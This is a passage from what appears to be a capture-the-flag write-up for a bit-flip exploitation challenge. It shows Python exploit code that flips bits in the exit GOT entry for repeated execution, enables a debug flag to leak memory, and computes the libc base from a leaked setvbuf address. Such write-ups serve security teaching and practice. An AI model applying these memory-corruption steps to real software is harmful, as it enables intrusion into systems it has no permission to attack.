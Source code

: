 `readword` just calls `readbyte` four times to return a 32-bit word.

`write(what, where)` is literally a _write-what-where_ that will `write` (flip) up to 32-bits of `what` to any writable 32-bit address (`where`).  _This is also not atomic._  (I could have added an optimization if `was` _was_ already known instead of reading it, but was lazy and it works.)

> **_None of these function are safe, all of them change memory, even the `read` functions._**

`debug` is the location of the global `DAT_0804c090` that if non-zero will emit the byte changed post-flip.

```python
# revolving exit
flipbit(binary.got['exit'],1)
flipbit(binary.got['exit'],9)

# debug mode
flipbit(debug,0)
flipbit(debug,1)
```

Once connected, using the `1,9` pair obtain a revolving exit door for infinite free rides, then flip any two _different_ `debug` bits to enable _debug_ mode for leaking bytes.

> Two bits must be flipped or the next stage will fail.  The reads require two flips, if that gets split across an `exit`, then the `setvbuf` `.got.plt` entry will be corrupt, failing when `exit` jumps back to the ~top of `main`.

```python
# get setvbuf plt address, and base libc:
setvbuf = readword(binary.got['setvbuf'])
log.info('setvbuf: ' + hex(setvbuf))
baselibc = setvbuf - libc.symbols['setvbuf']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

To leak libc, just read the PLT address from the GOT.

The libc can be obtained by reading the included `Dockerfile`.  BTW, this did not need to be included, it could have been discovered, e.g. the last 3 nibbles of the challenge server `setvbuf` is `700` (leaked from above), and can be search with [libc-database](https://github.com/niklasb/libc-database):

```bash
# libc-database/find setvbuf 700 | grep i386
http://http.us.debian.org/debian/pool/main/g/glibc/libc6-i386_2.28-10_amd64.deb (id libc6-i386_2.28-10_amd64)
```

A perfect match:

```bash
# md5sum libc-database/db/libc6-i386_2.28-10_amd64.so libc.so.6
476ae25c77b802a39fb335a615564143  libc-database/db/libc6-i386_2.28-10_amd64.so
476ae25c77b802a39fb335a615564143  libc.so.6 <== pulled (post vacation) from the docker image referenced in the supplied Dockerfile
```
